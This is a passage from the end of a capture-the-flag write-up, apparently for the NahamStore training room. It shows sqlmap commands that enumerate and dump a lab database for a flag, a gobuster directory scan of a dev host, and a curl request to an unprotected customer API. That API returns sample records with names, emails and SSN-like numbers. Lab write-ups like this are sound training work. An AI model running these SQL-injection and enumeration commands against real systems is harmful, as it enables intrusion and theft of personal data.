-----------------------------86688607116737285133964723420--

```
{% endcode %}

{% code overflow="wrap" %}
```bash
dking@dking ~/Downloads$ sqlmap -r req.txt --batch --level 5 --risk 3 --dbs                                    
# available databases [2]:
[*] information_schema
[*] nahamstore
```
{% endcode %}

{% code overflow="wrap" lineNumbers="true" %}
```bash
sqlmap -r req.txt --batch --level 5 --risk 3 -D nahamstore --dump --threads 10 

# Database: nahamstore
Table: sqli_two
[1 entry]
+----+------------------------------------+
| id | flag                               |
+----+------------------------------------+
| 1  | {212ec3b036925a38b7167cf9f0243015} |
```
{% endcode %}

## Task 3

After completing the RCE section and reading the host file we can go forward.

{% code overflow="wrap" %}
```bash
gobuster dir -u http://nahamstore-2020-dev.nahamstore.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -b 404,403 --no-error -t 200

/api
/customers
```
{% endcode %}

When we hit [http://nahamstore-2020-dev.nahamstore.thm/api/customers/](http://nahamstore-2020-dev.nahamstore.thm/api/customers/), there is an error message: `"customer_id is required"` so we know the parameter to provide.

```bash
dking@dking ~/Downloads$ curl "http://nahamstore-2020-dev.nahamstore.thm/api/customers/?customer_id=2" -s | jq
{
  "id": 1,
  "name": "Rita Miles",
  "email": "rita.miles969@gmail.com",
  "tel": "816-719-7115",
  "ssn": "366-24-2649"
}
{
  "id": 2,
  "name": "Jimmy Jones",
  "email": "jd.jones1997@yahoo.com",
  "tel": "501-392-5473",
  "ssn": "521-61-6392"
}

```

And we get answer for Task 3.

Done!

Learned a lot from this room 🤗

